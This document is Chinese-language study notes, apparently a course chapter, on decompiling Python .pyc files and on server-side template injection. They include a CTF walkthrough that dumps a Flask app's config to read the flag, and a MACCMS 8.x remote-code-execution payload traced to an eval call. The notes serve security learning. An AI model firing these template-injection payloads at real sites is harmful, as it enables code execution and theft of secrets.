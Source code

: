# 3.6 python考点

## 3.6.1 PYC文件反编译

[python逆向实战：反编译python3 pyc文件 - 乘舟凉 - 博客园 (cnblogs.com)](https://www.cnblogs.com/czlnb/p/16246759.html)

## 3.6.2 python-web-SSTI

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131343107-1166024097.png)

## 3.6.3 SSTI模板注入利用分析

判断是不是python开发-通过数据包

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131400636-1580455871.png)

```
pyc文件是py文件编译后生成的字节码文件(byte code)，pyc文件经过python解释器最终会生成机器码运行。
因此pyc文件是可以跨平台部署的，类似Java的.class文件，一般py文件改变后，都会重新生成pyc文件。
真题附件：http://pan.baidu.com/s/1jGpB8DS
反编译平台：
https://tool.lu/pyc/ 
http://tools.bugscaner.com/decompyle/
反编译工具：https://github.com/wibiti/uncompyle2
一般在CTF上，真实上很难遇到。类似.class文件等，PHP可以直接打包，但是.net和.class，.pyc需要解密才能得到源代码。
```

## 3.6.4 演示案例

### 3.6.4.1 PY反编译-PYC编译文件反编译源码

[在线pyc,pyo,python,py文件反编译，目前支持python1.5到3.6版本的反编译-在线工具 (bugscaner.com)](http://tools.bugscaner.com/decompyle/)

### 3.6.4.2 SSTI入门-原理&分类&检测&分析&利用

[SSTI漏洞原理及渗透测试 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/345059.html)

- 声明是STTI？有什么漏洞危害？

漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。

- 如何判断检测SSTI漏洞的存在？

输入的数据会被浏览器利用当前脚本语言调用解析执行

- SSTI会产生在那些语言开发应用？

python、ruby、Java、js

- SSTI安全问题在生产环境哪里产生？

存在模版引用的地方，如404错误页面展示
存在数据接收引用的地方，如模版解析获取参数数据

报错的时候存在数据接受，把变量输入进去，解析模板的时候出现问题。

web应用是有很多模板，它是一个显示样式的东西。
切换样式后，数据一样都存在的。
样式代码：

```html
<div class="center-content error">
 <h1>Oops! That page doesn't exist.</h1>
 <h3>%s</h3>
 </div> 
```

%s是一个可控的值，留给数据库去操作，取出数据去显示，不能写死。可以写上payload，让代码进行执行。
运行程序，访问本地5000端口。

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131634026-356924496.png)

- 如果访问出错地址

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131538186-1817852395.png)

- 源代码接收

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131543562-1531643522.png)

- 构建报错

```html
http://192.168.0.113:5000/njkncd?404_url=1
```

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131657820-1927560441.png)

- 访问http://192.168.0.113:5000/njkncd?404_url={{2-2}} ：2-2被代入python执行。

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131655115-835438083.png)

### 3.6.4.3 SSTI考点-CTF靶场

```
1、源码分析SSTI考点
2、测试判断SSTI存在
3、分析代码过滤和FLAG存储
4、利用Flask两个函数利用获取
https://blog.csdn.net/houyanhua1/article/details/85470175
url_for()函数是用于构建操作指定函数的URL
get_flashed_messages()函数是获取传递过来的数据
/shrine/{{url_for.__globals__}}
/shrine/{{url_for.__globals__['current_app'].config}}
/shrine/{{get_flashed_messages.__globals__}}
/shrine/{{get_flashed_messages.__globals__['current_app'].config}}
```

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131713866-1700480121.png)

```
发现关键性过滤
 s = s.replace('(', '').replace(')', '')
模板执行函数
render_template_string
 
判断存在：执行：http://b2014503-8276-429e-8d09-b1b38af83d43.node4.buuoj.cn:81/shrine/%7B%7B2-2%7D%7D
```

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131714011-842379536.png)

```
• 获取当前脚本所有的全局变量：http://b2014503-8276-429e-8d09-b1b38af83d43.node4.buuoj.cn:81/shrine/%7B%7Burl_for.__globals__%7D%7D
```

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131715136-1145043485.png)

```
发现当前正在使用的APP：
<class 'flask.helpers._PackageBoundObject'>, 'current_app': <Flask 'app'>
```

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131715239-1959675163.png)

http://b2014503-8276-429e-8d09-b1b38af83d43.node4.buuoj.cn:81/shrine/%7B%7Burl_for.__globals__['current_app'].config['FLAG']%7D%7D  得到flag

### 3.6.4.4 SSTI考点-CMS源码-MACCMS_V8.X执行

[Maccms8.x 远程命令执行漏洞分析 - yunying - 博客园 (cnblogs.com)](https://www.cnblogs.com/BOHB-yunying/p/13655030.html)

```
Payload:index.php?m=vod-search&wd={if-dddd:phpinfo()}{endif-dddd}
1、根据wd传递的代码找指向文件
2、index->vod->tpl->ifex->eval
3、构造Payload带入ifex并绕过后执行
 
m=vod-search
wd={if-dddd:phpinfo()}{endif-dddd} 
 
知道payload，推出漏洞成因
m传参：
```

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131714317-648667545.png)

- 定位到be函数

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131715224-2098816609.png)

- 发现包含文件

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131714417-280163961.png)

- 输出$ac，发现是vod文件，然后找到vod.php文件
  在vod.php发现wd传参：

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131714769-933300109.png)

- 跟踪tpl，指向ifex函数
  跟踪ifex函数：

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131714630-1614117682.png)

发现命令执行代码段
